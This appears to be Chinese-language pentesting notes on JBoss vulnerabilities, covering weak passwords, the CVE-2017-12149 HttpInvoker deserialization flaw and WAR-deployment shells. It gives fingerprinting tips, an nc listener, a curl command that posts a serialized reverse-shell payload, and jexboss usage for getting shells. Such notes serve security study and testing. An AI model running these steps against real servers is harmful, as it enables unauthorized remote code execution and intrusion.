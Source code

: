 JBoss常见漏洞:
JBoss 弱口令漏洞
JBoss 反序列化漏洞
JBoss 后台部署war包getshell

JBoss的8080端口，有jboss.css，响应头有X-Powered-By:JBOSSAS-6
后台:8080/admin-console


^
## **JBoss反序列化漏洞**
JBoss反序列化漏洞（Httplnvoker 组件（CVE-2017-12149））
版本：jboss5.x/6.x，访问/invoker/readonly返回500，说明页面存在，此页面存在反序列化漏洞
原理：存在于Jboss的Httplnvoker组件中的ReadOnlyAccessFilter过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了攻击者可以在服务器上执行任意代码。
漏洞验证访问/invoker/readonly，，返回500，说明此页面存在反序列化。
漏洞过程：
开两个终端，一个进行监听（nc -lvnp 12345），另一个发payload
```
curl http://192.168.50.169:8080/invoker/readonly --data-binary@ReverseShellCommonsCollectionsHashMap.ser
```
(@不能省略)
最后，成功反弹shell


^
版本：Jboss4.x，访问/jbossmq-httpil/HTTPServerlLServlet，返回This is the JBossMQ HTTP-IL，说明页面存在，此页面存在反序列化漏洞



## **工具利用**
也可直接利用工具：jexboss (python2、3均可)，可安装在Kali。
Jexboss是一个使用Python编写的Jboss漏洞检测利用工具，通过它可以检测并利用web-console，jmx-console，JMXlnvokerServlet这三个漏洞，并且可以获得一个shell。
工具下载:https://github.com/joaomatosf/jexboss
此工具除了可以对Jboss框架进行漏洞检测，还可以对其它Java平台、框架、应用等反序列化漏洞进行检测。
python3  jexboss.py -u xx.xx:8080
利用漏洞反弹shell。
输入公网反弹shell监听地址。
成功反弹shell。
新版本也可以直接回显远程命令执行。
